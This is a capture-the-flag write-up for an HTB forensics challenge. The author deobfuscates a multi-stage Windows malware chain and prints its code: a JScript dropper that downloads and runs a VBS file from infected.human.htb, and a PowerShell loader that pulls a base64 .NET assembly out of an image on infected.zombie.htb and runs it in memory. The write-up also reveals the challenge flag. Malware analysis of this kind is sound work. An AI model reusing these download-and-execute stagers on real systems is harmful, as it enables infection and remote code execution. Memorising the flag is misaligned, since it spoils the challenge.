









# WRITE_UP #

## GETTING CLOSER ##

### 1. Analysis ###
* **Given:** a javascript named `vaccine.js`
* **Description:** Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. Note:* Make sure you edit /etc/host so that any hostnames found point to the Docker IP.
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### CLOSER AND CLOSER ####
Let's open the javascript in `VSCode` to see what it does:



As you can see, the script is highly obfuscated. However the attacker only obfuscates the variable and function name, not the real commands, we can just copy the file and change the variable name:
```js
var a = new ActiveXObject("MSXML2.XMLHTTP.6.0");
var b = new ActiveXObject("Scripting.FileSystemObject");
var c = new ActiveXObject("WScript.Shell");
var d = 'C:\\Windows\\Temp';
var e = b.GetTempName() + ".vbs"; 
var f = b.BuildPath(d, e);
a.open("GET", "http://infected.human.htb/d/BKtQR", false);
a.send();

if (a.status === 200) {
    var scriptText = a.responseText;
    var h = b.CreateTextFile(f, true);
    h.write(scriptText);
    h.close();
    var i = c.Exec('wscript "' + f + '"');
    while (i.Status === 0) {
        WScript.Sleep(100);
    }
    b.DeleteFile(f);

} else {
    WScript.Echo("Fatal: " + a.status);
}

// I skipped the 2 function since they were not called anywhere.

```

We can easily see the script try to send a **GET** request to download a payload from url `http://infected.human.htb/d/BKtQR`, then save the malicious payload to path `C:\\Windows\\Temp` as a `.vbs` file. If the server response with an `200 - OK`, the malware immediately create a text file then execute before deleting itself.

Now we can download the malicious payload from the url by using `curl`:



Open the malware, it's another highly obfuscated vbs script:



But again, the script only changes the variable name, so I did a little bit of name replacing. I recommend you to change the `tomqOXAFzrtBfQNTWGTuDgkLdYgzpoJtKGfuDsVESyJFHtcTuIutPkyuVQpwGLbFvLzIXmwguYvYDQgGkwihbveHvvcwfRqtjiREeQFyWwImwPIYWQUCUkxpKztLmHwNlIJgvNGzLQmRPuWNmhjWkXYLnDNfNpXwZwmVMhIMMViCmFVUKhHgGZowKY`, and `ceihQqALcGOIRltJWcbOAcczSqDgPWBanKbSRhvIyWcOXwSUZYlOlkclnTvWYtPYJsIsCAOyBOKcIDbKqydbbQiROKGvDcbByIJqSQCGrePhAfCReMhvmGlwtLvcWqUCiAyqsZyYOpOIXbGruLZvpKmQRrqRlZiOocSlSZyyURrGTlriyLKUecKSRGfbDLCeQxKqwTaD`, here I changed them to `a` and `h`:



First the attackers assign `h` variable by a long string with the pattern `em9tYmllc`, it replaces three specific substrings with the letter `P`, assigns `h` to `a` through a variable named `$Codigo`, from here we could realize `a` is the last powershell script we need to find.

Then is this string reverse sequence:



Decode it we will have: 
```ps1
;$OWjuxd = [sytem.Text.encoding]::UnicodeGetString.
```

Next, the script tries to append some strings to var `a`, before replacing these strings with a letter:
```vb
a = Replace(a, "TQIJoIsDKygFhOhIUsFhmYGpMtHYXYriuBkzrHlGxHgtwOVBcJpaoSYXwYihoBDwDRSCDEGplfmoDjPrgYmdejlOxRRTwXXqUxtEpkdbzFGZtRYqCBgefVWmDfUZnbLpaQQTIAMcveTJekTjNZjNfCJawQsxvvTLaqAKZUciNlCQgVQFoKfnXYUTpOaNcbqsaDpdjNnD", "e")
a = Replace(a, "YdiovnqyjTDXTaRYzrOrPtPSPEkGydtHpsDzuMmtvwWDgfonHmlbiWofBzfzWwPCyghETBLJtSXhZTteJymwidWxlLmZRoJmxzHcFtMNHFLqYxcpgFpHeIhwiWILHovZEyZuwgHbTGwMVrwwjpWojiuZPXGPnkWzSsIhWOckYJSLGuGYaBQbdomrjcmnDFZVNWqVGjwx", "o")
a = Replace(a, "ZjJMuHOyfLrFRZQLRAMejVORkrLmnSCXRqVNBLINqTtavYGXNKmWkKgLUKpRuknZoStcKiPTtlSLTzbLLKnqBLvCxwwfYDUEJVRbZAqnPXJFfwKgaKoaTyXvWlktaXauDNHvgmoqbgdjOoBAwieAxhmIQTQGWVjowvkJpSMpEPnfitrQGRfXaVLxUPAmLRGwRAEgjqTg", "s")
a = Replace(a, "SjnKkClLMbtbUbEphNmdQTEXfhFHyXgQvKXvohDxuaGQdsTVSnrqEPEsLAdRQxDbDqFawzwRYThIFGZFjDIAEWMnWgxyLATxLKfXLJGtQgEqlXlrEBLbufduqlrgvcKaQAuxxmISiInqdFxetxSvuwcnvTQZlRnsnrezMZamRBgFTQGJcmEpKQISyYXRLVbdBQEdwdle", "t")
a = Replace(a, "VXIxBYQSKDryEAULIfGtTdegkaavJdWnPtXZlxmbyRZbRztkgJXWSKYsPfdAvLjUlqQqikfohaKubLssSrhTyIatsqjlfjIBXVfmwFkVqYIyCtYmjprSExKIzpcAdoVBTPRwuxasqmXvYvnHQlXgZBCYBqolLMBaNbIspDogrWvPdQlBBtHAGkUozkbMEJZIHTuiLIxX", "a")
a = Replace(a, "adAuCBFCwdFvnAC", "A")
```

After get the final payload, it call `ESyJFHtcTuIutPkyuVQpwGLbFvLzIXmwguYvYDQgGkwihbveHvvcwfRqtjiREeQFyWwImwPIYWQUCUkxpKztLmHwNlIJgvNGzLQmRP` which was set to `WScript.CreateObject("WScript.Shell")` in line 20 to run the malware.

So now we understand the flow of the script, we can easily capture the payload by adjusting the original script:
```vb
' Delete the last line where the script try to run the malware
' Add this lines to the bottom of the script to save the output to a text file
Set k = CreateObject("Scripting.FileSystemObject")
Set output = k.CreateTextFile("<your_path>\Getting Closer\decrypted_code.txt", True)
output.WriteLine(tomqOXAFzrtBfQNTWGTuDgkLdYgzpoJtKGfuDsVESyJFHtcTuIutPkyuVQpwGLbFvLzIXmwguYvYDQgGkwihbveHvvcwfRqtjiREeQFyWwImwPIYWQUCUkxpKztLmHwNlIJgvNGzLQmRPuWNmhjWkXYLnDNfNpXwZwmVMhIMMViCmFVUKhHgGZowKY)
```

After getting the text file, we copy it to CyberChef:



In the last line, there's another replace command before converting the base64 payload to real command. Applying the recipe `Find/Replace`, `From Base64` and `Remove null bytes` after deleting the redundancies we can easily decode the `$OWjuxd`:



```ps1
$imageUrl  =  'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';
$webClient  =  New - Object System.Net.WebClient;
$imageBytes  =  $webClient.DownloadData($imageUrl);
$imageText  =  [System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag  =  '<<BASE64_START>>';
$endFlag  =  '<<BASE64_END>>';
$startIndex  =  $imageText.IndexOf($startFlag);
$endIndex  =  $imageText.IndexOf($endFlag);
$startIndex  - ge 0  - and $endIndex  - gt $startIndex;
$startIndex  +  =  $startFlag.Length;
$base64Length  =  $endIndex  -  $startIndex;
$base64Command  =  $imageText.Substring($startIndex,  $base64Length);
$commandBytes  =  [System.Convert]::FromBase64String($base64Command);
$loadedAssembly  =  [System.Reflection.Assembly]::Load($commandBytes);
$type  =  $loadedAssembly.GetType('Fiber.Home');
$method  =  $type.GetMethod('VAI').Invoke($null,  [object[]] ('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=' ,  'dfdfd' ,  'dfdf' ,  'dfdf' ,  'dadsa' ,  'de' ,  'cu'))
```

Another script, this time it tries to download an image from `http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg`. However, the attacker wants to utilize the `imageBytes` to findout the hidden payload of the image. In the image there are two strings `<<BASE64_START>>` and `<<BASE64_END>>`, attacker will take the all encoded bytes from the start index to the end, then decode them before loading directly to RAM and execute it.

So now let's curl our image to analyze it further:



I used `strings` and `grep` to capture the hidden data, after getting it, I uploaded it to CyberChef to decode, then get the flag:



* **Note:** When writting this writeup, I still don't remember why I was using 2 reverse recipe, maybe I was tripping lol, but we get the flag anyway 
### 3. Solution ###
1. **Result:** The flag is `HTB{0n3_St3p_cl0s3r_t0_th3_cur3}`


